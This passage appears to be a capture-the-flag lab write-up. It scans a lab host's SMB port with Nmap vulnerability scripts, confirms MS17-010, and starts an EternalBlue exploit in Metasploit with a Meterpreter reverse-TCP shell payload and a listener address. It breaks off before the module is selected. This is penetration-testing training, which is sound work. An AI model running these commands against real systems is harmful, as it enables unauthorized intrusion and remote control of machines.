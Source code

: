 List Nmap NSE script categories:

```bash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
```

![[nsa_files.png]]

From the output, the most relevant categories for vulnerability detection are **vuln** and **safe**.

Run Nmap with vulnerability detection scripts against port 445:

```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnScan
```

![[nmap_vuln&safe.png]]

**Result:**  
The scan confirms the target is vulnerable to **MS17-010**.

---
## 3. Exploitation

Given the confirmed EternalBlue vulnerability, we can exploit it directly using **Metasploit**.

### 3.1 Launching Metasploit

```bash
msfconsole
```

![[msfconsole.png]]

Search for the MS17-010 EternalBlue module:

```bash
search ms17_010
```

![[search_ms17010.png]]

---
### 3.2 Configuring the Exploit

Set target parameters:

```bash
set RHOSTS 10.10.10.40
set LHOST 10.10.15.20
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Select the EternalBlue module:

